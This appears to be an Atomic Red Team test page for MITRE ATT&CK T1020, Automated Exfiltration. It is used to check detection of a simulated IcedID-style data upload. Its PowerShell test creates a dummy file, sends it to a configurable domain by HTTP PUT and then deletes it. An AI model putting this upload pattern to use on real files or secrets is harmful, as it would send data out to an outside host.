 # T1020 - Automated Exfiltration
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1020)
<blockquote>Adversaries may exfiltrate data, such as sensitive documents, through the use of automated processing after being gathered during Collection. 

When automated exfiltration is used, other exfiltration techniques likely apply as well to transfer the information out of the network, such as [Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041) and [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).</blockquote>

## Atomic Tests

- [Atomic Test #1 - IcedID Botnet HTTP PUT](#atomic-test-1---icedid-botnet-http-put)


<br/>

## Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** Windows


**auto_generated_guid:** 9c780d3d-3a14-4278-8ee5-faaeb2ccfbe0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file | Exfiltration File | String | C:&#92;temp&#92;T1020_exfilFile.txt|
| domain | Destination Domain | url | https://google.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```





<br/>
